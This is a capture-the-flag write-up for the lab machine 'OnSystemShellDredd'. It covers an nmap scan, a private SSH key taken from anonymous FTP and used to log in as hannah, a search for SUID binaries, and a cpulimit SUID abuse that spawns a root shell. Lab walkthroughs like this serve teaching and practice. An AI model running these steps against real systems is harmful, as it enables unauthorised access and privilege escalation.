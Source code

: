 ```yaml
---
layout: default
title: OnSystemShellDredd
parent: Proving Grounds Play
nav_order: 4
---
```


## Discovered Ports for Enumeration

- _21_ - FTP
- _61000_ - SSH

## Users and Credentials

- _Users_: hannah
- _Credentials_:

# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.199.130
```

# Enumeration

---

## 21 - FTP

Anonymous login allowed.

Discovered hidden directory named _.hannah_

Discovered private RSA key.

![rsa_key](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/rsa_key.png)

Download the private key and save locally to _id_rsa_ file.

# Exploitation

---

Use the downloaded RSA private key to authenticate to port 61000 SSH as user _hannah_

![ssh](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/ssh.png)

# Post-Exploitation

---

## Check SUID/GUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/suid.png)

![gtfobins](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/gtfobins.png)

## Exploit Cpulimit SUID to get root

```bash
cpulimit -l 100 -f -- /bin/sh -p
```

![root](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/root.png)
